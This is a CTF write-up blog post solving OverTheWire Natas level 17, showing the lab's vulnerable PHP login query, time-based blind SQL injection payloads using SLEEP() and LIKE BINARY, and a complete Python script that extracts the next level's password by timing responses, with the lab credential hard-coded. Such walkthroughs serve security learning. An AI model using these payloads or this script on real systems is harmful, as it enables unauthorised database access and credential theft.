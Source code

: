 ```yaml
---
title: "Overthewire Natas 17 Walkthrough"
layout: post
date: 2018-04-10 21:44
image: /assets/images/markdown.jpg
headerImage: false
tag:
- ctf
- overthewire
- natas
- wargames
star: true
category: projects
author: Hisham Alshaikh
description: This is just a walkthrough for overthewire's natas level 17
---
```


## Challenge

![Markdown Image](/assets/images/natas_17_solution/challenge_page.png)

{% highlight php %}
<? 
/* 
CREATE TABLE `users` ( 
  `username` varchar(64) DEFAULT NULL, 
  `password` varchar(64) DEFAULT NULL 
); 
*/ 

if(array_key_exists("username", $_REQUEST)) { 
    $link = mysql_connect('localhost', 'natas17', '<censored>'); 
    mysql_select_db('natas17', $link); 
     
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\""; 
    if(array_key_exists("debug", $_GET)) { 
        echo "Executing query: $query<br>"; 
    } 

    $res = mysql_query($query, $link); 
    if($res) { 
    if(mysql_num_rows($res) > 0) { 
        //echo "This user exists.<br>"; 
    } else { 
        //echo "This user doesn't exist.<br>"; 
    } 
    } else { 
        //echo "Error in query.<br>"; 
    } 

    mysql_close($link); 
} else { 
?> 
{% endhighlight %}

The goal of this challenge is to exploit a blind SQL injection vulnerability in order the to read the 'password' column for the username natas18, so we obtain the password for the next level. 


## Solution


Reading the source code we can find out that we have control over the username field in the SQL query. We can do a proof of concept that this blind sql injection works by using SLEEP() function; we will know it works if it took a longer time to respone.

{% highlight raw %}
natas18" and sleep(5)#
{% endhighlight %}


Now we can do the same sleep() technique in order to know the characters in the password. So we will send a query for querying some character in the password field, and if it exists a delay will happen, if not nothing will happen. 

{% highlight raw %}
natas18" AND IF(password LIKE BINARY "%0%", SLEEP(100), null) #
{% endhighlight %}


Now we can automate all of this proccess of getting natas18 password using the following python script.

{% highlight python %}
#!/usr/bin/python
#h15h4m


import requests
from requests.auth import HTTPBasicAuth


http_username = "natas17"
http_password = "8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw"
target =  "http://natas17.natas.labs.overthewire.org/"
http_login=HTTPBasicAuth(http_username, http_password)
chars_to_check = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
password_chars_found = ''
password = ''
r = requests.get(target, auth=http_login)

if  r.status_code != requests.codes.ok:
    print "[-] Check Authentication"
    exit()


print "[!] We are in"



#natas18" AND IF(password LIKE BINARY "%0%", SLEEP(100), null) #

for i in chars_to_check:
    payload = 'natas18" AND IF(password LIKE BINARY "%'+ i +'%", SLEEP(5), null) %23'
    try:
        r = requests.get(target + "index.php?debug=1&username=" + payload, auth=http_login,timeout=1)
    except:
        print "[+] Timeout: Char Found " + i
        password_chars_found += i

print '[!] Found Chars ' + password_chars_found

#md5 32 chars
for i in range(32):
    for ii in password_chars_found:
        payload = 'natas18" AND IF(password LIKE BINARY "'+ password + ii +'%", SLEEP(5), null) %23'
        try:
            r = requests.get(target + "index.php?debug=1&username=" + payload, auth=http_login,timeout=1)
        except:
            print "[+] Timeout: Char Found " + ii
            password += ii
            break


print '[!] PASSWORD = ' + password

#print r.content
{% endhighlight %}



![Markdown Image](/assets/images/natas_17_solution/final_result.png)


